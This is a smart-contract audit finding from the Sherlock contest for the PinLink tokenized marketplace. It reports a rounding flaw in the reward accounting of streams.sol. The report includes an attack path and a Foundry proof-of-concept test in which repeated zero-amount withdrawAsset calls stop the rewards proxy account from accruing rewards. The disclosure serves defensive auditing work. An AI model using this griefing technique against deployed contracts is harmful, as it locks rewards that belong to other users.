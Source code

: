 Wobbly Eggplant Troll

Medium

# Rounding issue of reward calculation will affect reward losing of users.

### Summary

In streams.sol
https://github.com/sherlock-audit/2025-03-pinlink-rwa-tokenized-depin-marketplace/blob/main/marketplace-contracts/src/marketplaces/streams.sol#L112

In globalRewardsPerStaked() and updateRewards() function, 
By small rounding issue, the rewards can't be accumulated.

### Root Cause

In updateReward() function,
The function calculate pendingReward and update updatedRewardsPerStaked variable.
But if updateReward() function is called often with short period, pendingReward will be added 0 and udpatedRewardsPerStaked will be updated.

Therefore the users who have small stack balance might not get reward.

### Internal Pre-conditions

N/A

### External Pre-conditions

N/A

### Attack Path

1. When attacker will purchase small stakedBalances and withdraw it.
2. So REWARDS_PROXY_ACCOUNT will has some stakedBalances and attacker gets fractional Assets
3. The attacker repeatedly calls the withdrawAsset() function with an amount of 0 at short intervals.
4. As result REWARDS_PROXY_ACCOUNT will not get reward.
5. So expected reward of REWARDS_PROXY_ACCOUNT will be locked in contract.

### Impact

@Here are the underlying requirements that should always hold:
  rewards are never locked in the contract and should be always claimable by someone

But : 
- The users that have small stack balance might not get reward by frequent calling updateReward() 
- The REWARDS_PROXY_ACCOUNT can't get reward by attacker.

So the rewards will be locked in contract by these 2 cases. 


### PoC

In depostiRewards.t.sol 

- add import "forge-std/console.sol"; 
- add test function

```solidity
function test_attacker_not_reward() public {

        vm.startPrank(admin);

        uint256 skipAmount = 20 seconds;

        uint256 asset5 = 555;
        fractions.mint(asset5, admin, 1000);
       
        uint256 amount = 10e6;
        uint256 balanceBefore = USDC.balanceOf(address(pshop));
        
        pshop.enableAsset(address(fractions), asset5, admin);
        vm.stopPrank();

        

        vm.prank(operator);
        pshop.depositRewards(address(fractions), asset5, amount, 15 days);

        vm.prank(admin);
        bytes32 listingId = pshop.list(address(fractions), asset5, 10, 10**18, block.timestamp + 15 days);

        vm.prank(alice);
        pshop.purchase(listingId, 5, 10000 * 10**18);

        vm.prank(alice);
        pshop.withdrawAsset(address(fractions), asset5, 5, alice);
        //so reward proxy has 5 fractions.

        address proxyRewardsAccount = pshop.REWARDS_PROXY_ACCOUNT();

        skip(skipAmount * 3); 

        vm.prank(bob);
        pshop.withdrawAsset(address(fractions), asset5, 0, bob);
        console.log("-after 1 mins-");
        console.log(pshop.getPendingRewards(address(fractions), asset5,proxyRewardsAccount));

        skip(skipAmount);

        vm.prank(bob);
        pshop.withdrawAsset(address(fractions), asset5, 0, bob);
        console.log("-after 1 mins 20 secs-");
        console.log(pshop.getPendingRewards(address(fractions), asset5,proxyRewardsAccount));

        skip(skipAmount);

        vm.prank(bob);
        pshop.withdrawAsset(address(fractions), asset5, 0, bob);
        console.log("-after 1 mins 40 secs-");
        console.log(pshop.getPendingRewards(address(fractions), asset5,proxyRewardsAccount));

        skip(skipAmount);

        vm.prank(bob);
        pshop.withdrawAsset(address(fractions), asset5, 0, bob);
        console.log("-after 2 mins-");
        console.log(pshop.getPendingRewards(address(fractions), asset5,proxyRewardsAccount));

        

        
    }
```

- Run command : forge test --match-test test_attacker_not_reward -vv

- Result 
 
  -after 1 mins-
  2
  -after 1 mins 20 secs-
  2
  -after 1 mins 40 secs-
  2
  -after 2 mins-
  2


As result, REWARDS_PROXY_ACCOUNT get 2 rewards in 1 min.
But after attacker starts to attack, can't get reward in another 1 min.


### Mitigation

Need to modify to minimize rounding issue.